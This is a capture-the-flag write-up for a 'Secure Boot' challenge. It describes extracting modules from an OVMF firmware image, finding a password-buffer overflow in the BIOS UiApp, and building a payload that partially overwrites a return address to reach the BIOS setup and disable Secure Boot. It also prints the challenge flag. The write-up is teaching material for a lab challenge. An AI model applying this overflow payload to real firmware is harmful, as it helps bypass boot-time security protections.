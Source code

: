 # Secure Boot
> Solves: 26

The goal of the challenge is very clear, just boot the machine successfully.
* <span>run.py</span>:
```python
#!/usr/bin/python3
import os
import tempfile

fname = tempfile.NamedTemporaryFile().name

os.system("cp OVMF.fd %s" % (fname))
os.system("chmod u+w %s" % (fname))
os.system("qemu-system-x86_64 -s -monitor /dev/null -m 128M -drive if=pflash,format=raw,file=%s -drive file=fat:rw:contents,format=raw -net none -nographic 2> /dev/null" % (fname))
os.system("rm -rf %s" % (fname))
```
But this machine was enabled Secure Boot Configuration, thus if boot it directly, we will get this messege:
```
UEFI Interactive Shell v2.2
EDK II
UEFI v2.70 (EDK II, 0x00010000)

...

Booting...
Script Error Status: Security Violation (line number 5)
```
Try some hotkey like `ESC`, it will enter the BIOS interface and ask for the password:
```
BdsDxe: loading Boot0000 "UiApp" from Fv(7CB8BDC9-F8EB-4F34-AAEA-3EE4AF6516A1)/FvFile(462CAA21-7614-4503-836E-8AB6F4662331)
BdsDxe: starting Boot0000 "UiApp" from Fv(7CB8BDC9-F8EB-4F34-AAEA-3EE4AF6516A1)/FvFile(462CAA21-7614-4503-836E-8AB6F4662331)
****************************
*                          *
*   Welcome to the BIOS!   *
*                          *
****************************

Password?
```
* Use `uefi-firmware-parser` to extract dll files from `OVMF.fd`:
```shell=
sudo pip install uefi_firmware
uefi-firmware-parser ./OVMF.fd -e
```
We'll get several dll files:
```
/home/google-ctf/edk2/Build/OvmfX64/RELEASE_GCC5/X64/MdeModulePkg/Application/UiApp/UiApp/DEBUG/UiApp.dll
/home/google-ctf/edk2/Build/OvmfX64/RELEASE_GCC5/X64/MdeModulePkg/Universal/BdsDxe/BdsDxe/DEBUG/BdsDxe.dll
/home/google-ctf/edk2/Build/OvmfX64/RELEASE_GCC5/X64/OvmfPkg/Sec/SecMain/DEBUG/SecMain.dll
...
```
First check out the `UiApp.dll` for reversing BIOS. There is a simple overflow, password buffer has the length 0x80 byte, but we are able to input 0x8b byte to it, it can just right overwrite the data pointer for 4 byte.

### PoC
* Password: `a` * 0x8a

![](https://i.imgur.com/O5HVnMP.png)


For now, we can write everywhere and also get the image base of UiApp.dll from crash messege. We decided to overwrite some function pointer to continue booting, but the content to write was uncontrollable, it like the hash value of the password.
Finally we decided to find the password which last byte of hash is nearby enough offset, return address is at `0x7ec18b8`, we overwrite the pointer with `0x7ec18b8 - 0x20 + 1` to overflow the return address for just one byte.
For this password payload:
```python
p = '\x05' * 0x20
p = p.ljust( 0x20 , '\x01' )
p = p.ljust( 0x88 , 'a' )
p += p32( 0x7ec18b8 - 0x20 + 1 )
```
the last byte of hash value of this password is `\x13`, and the original return address is `0x67d4d34`. We overflow it to let it become `0x67d4d13`:
```nasm
   0x67d4d13:	sbb    BYTE PTR [rcx],al
   0x67d4d15:	add    dh,al
   0x67d4d17:	add    eax,0x11dfc
   0x67d4d1c:	add    DWORD PTR [rcx+0x11e9d05],ecx
   0x67d4d22:	add    BYTE PTR [rbx+0x118a705],cl
   0x67d4d28:	add    BYTE PTR [rcx+0x11e8d05],cl
   0x67d4d2e:	add    al,ch
   0x67d4d30:	sbb    al,0x61
   0x67d4d32:	add    BYTE PTR [rax],al
   0x67d4d34:	test   al,al
   0x67d4d36:	jne    0x67d4d49
   0x67d4d38:	lea    rcx,[rip+0xa11f]        # 0x67dee5e
   0x67d4d3f:	call   0x67cc3fd
   0x67d4d44:	jmp    0x67d5eb6
=> 0x67d4d49:	cmp    BYTE PTR [rip+0x11e00],0x0        # 0x67e6b50
```
It didn't crash, that was awesome! The `al` was not zero now, so that it will bypass `test al,al` checking and took the branch at `jne    0x67d4d49` then entered the BIOS.
For now, just use some control keys `UP DOWN LEFT RIGHT` to control the BIOS interface.
Disable Secure Boot Configuration, and reset:
* Enter Device Manager
![](https://i.imgur.com/EWx5VU0.png)
* Enter Secure Boot Configuration
![](https://i.imgur.com/7ybGzs7.png)
* Disable it!
![](https://i.imgur.com/YVg0Rjq.png)
* Enjoty the machine.
![](https://i.imgur.com/OIIsQfS.png)

Flag: `CTF{pl4y1ng_with_v1rt_3F1_just_4fun}`